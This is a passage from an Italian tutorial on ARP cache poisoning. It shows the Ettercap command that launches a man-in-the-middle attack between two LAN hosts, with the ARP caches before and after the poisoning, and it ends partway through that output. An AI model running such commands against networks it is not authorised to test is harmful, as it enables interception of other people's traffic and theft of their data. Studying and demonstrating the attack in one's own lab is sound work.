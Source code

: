 L'implementazione del protocollo ARP-RARP su Linux e Windows è tale che vengano accettate risposte ARP anche senza aver inviato alcuna richiesta ARP! Se infatti un host riceve una ARP reply, anche se non sollecitata, esso memorizzerà l'associazione contenuta nella risposta anche se già presente in cache.

I cracker si fregano già le mani dalla gioia, anche perché questo, oltre allo sniffing (senza tra l'altro dover porre la scheda di rete in modalità promiscua), potrà dare origine ad una lunga serie di attacchi man in the middle: in un simile attacco, come suggerisce il nome, il traffico di rete tra due macchine viene dirottato ad una terza macchina (attaccante), facendo però credere agli end-point che l'attaccante sia, invece, il destinatario legittimo.

L'italianissimo Ettercap, nato come uno sniffer per LAN con switch (ed ovviamente con hub), col tempo è cresciuto ed è divenuto uno tra i più potenti tool esistenti per gli attacchi di tipo man in the middle.

Vedremo ora qualche esempio sul campo utilizzando la versione di tale software per Linux Debian, del quale è un pacchetto standard. Esiste anche la versione per Windows, ma è meno potente, meno semplice e, si dice, più problematica.

Cronologia di uno sniffing in LAN mediante Ettercap
Siano 192.168.0.40 e 192.168.0.50 due PC in rete locale (mi riferirò sempre ad essi tramite IP, anziché tramite nome). Sul primo gira un sistema operativo Windows XP e sul secondo Linux Debian. Le cache ARP prima dell'attacco sono come segue (in rosso il comando dato al prompt o alla shell).

192.168.0.40 (Windows XP Professional)

arp -a

Interfaccia: 192.168.0.40 --- 0x10003
  Indirizzo Internet    Indirizzo fisico      Tipo
  192.168.0.24          00-13-20-e4-3a-5a     dinamico 
192.168.0.50 (Linux Debian 4)

arp -n

Address                  HWtype  HWaddress           Flags Mask            Iface
192.168.0.24             ether   00:13:20:E4:3A:5A   C                     eth0
È presente in entrambe l'indirizzo 192.168.0.24 perché da tale Pc (sempre in LAN) sono ad essi collegato (rispettivamente: via VNC per Windows e via ssh per Debian).

Dalla mia macchina 192.168.0.24 (Linux Debian 4) lancio l'attacco (necessita privilegi di root):

ettercap -T -M arp /192.168.0.40/ /192.168.0.50/
Il metodo arp di Ettercap implementa l'attacco man in the middle ARP cache poisoning. Vengono inviate ARP reply alle vittime per avvelenare la loro cache ARP. Una volta terminato l'avvelenamento, le vittime invieranno i loro pacchetti TCP/IP all'attaccante, credendolo il destinatario, e questi potrà in caso modificare ogni pacchetto e rinviarlo alla destinazione reale.

Cache ARP dopo l'avvelenamento.

192.168.0.40

arp -a

Interfaccia: 192.168.0.40 --- 0x10003
  Indirizzo Internet    Indirizzo fisico      Tipo
  192.168.0.24          00-13-20-e4-3a-5a     dinamico  
  192.168.0.50          00-13-20-e4-3a-5a     dinamico 
192.168.0.50
